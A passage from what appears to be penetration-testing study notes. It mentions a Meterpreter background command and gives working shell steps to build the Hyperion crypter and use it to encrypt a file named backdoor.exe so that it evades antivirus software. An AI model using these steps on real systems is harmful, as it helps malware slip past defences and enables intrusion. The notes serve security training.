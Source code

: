 -   Meterpreter Post Exploitation Features

    -   Create a Meterpreter background session  
        background

<span id="_51btodqc88s2" class="anchor"><span id="_Toc480741825" class="anchor"></span></span>Bypassing Antivirus Software 
===========================================================================================================================

-   Crypting Known Malware with Software Protectors

    -   One such open source crypter, called Hyperion  
        cp /usr/share/windows-binaries/Hyperion-1.0.zip  
        unzip Hyperion-1.0.zip  
        cd Hyperion-1.0/  
        i686-w64-mingw32-g++ Src/Crypter/\*.cpp -o hyperion.exe  
        cp -p
        /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc\_s\_sjlj-1.dll
        .  
        cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll
        .  
        wine hyperion.exe ../backdoor.exe ../crypted.exe

-   Using Custom/Uncommon Tools and Payloads<span id="_2nz8rskeai36"
    class="anchor"></span>
